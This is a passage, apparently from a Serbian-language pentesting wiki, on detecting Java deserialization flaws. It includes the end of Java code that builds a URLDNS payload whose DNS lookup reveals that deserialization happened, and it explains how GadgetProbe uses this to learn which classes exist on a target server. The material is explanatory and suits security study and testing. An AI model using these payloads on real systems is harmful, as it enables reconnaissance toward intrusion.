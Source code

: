 ```java
ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

// During the put above, the URL's hashCode is calculated and cached.
// This resets that so the next time hashCode is called a DNS lookup will be triggered.
final Field field = u.getClass().getDeclaredField("hashCode");
field.setAccessible(true);
field.set(u, -1);

//Test the payloads
GeneratePayload(ht, "C:\\Users\\Public\\payload.serial");
}
}


class SilentURLStreamHandler extends URLStreamHandler {

protected URLConnection openConnection(URL u) throws IOException {
return null;
}

protected synchronized InetAddress getHostAddress(URL u) {
return null;
}
}
```

### Više informacija

* [https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
* U originalnoj ideji, payload za commons collections je promenjen kako bi izvršio DNS upit, ali to je manje pouzdano od predložene metode, ali ovo je post: [https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)

## GadgetProbe

Možete preuzeti [**GadgetProbe**](https://github.com/BishopFox/GadgetProbe) sa Burp Suite App Store (Extender).

**GadgetProbe** će pokušati da utvrdi da li neke **Java klase postoje** na Java klasi servera kako biste znali **da li** je **ranjiv** na neki poznati exploit.

### Kako radi

**GadgetProbe** će koristiti isti **DNS payload iz prethodne sekcije**, ali **pre** pokretanja DNS upita će **pokušati da deserijalizuje proizvoljnu klasu**. Ako **proizvoljna klasa postoji**, **DNS upit** će biti **poslat** i GadgetProbe će zabeležiti da ta klasa postoji. Ako **DNS** zahtev **nikada nije poslat**, to znači da **proizvoljna klasa nije uspešno deserijalizovana**, pa je ili nije prisutna ili nije **serijalizovana/eksploatabilna**.
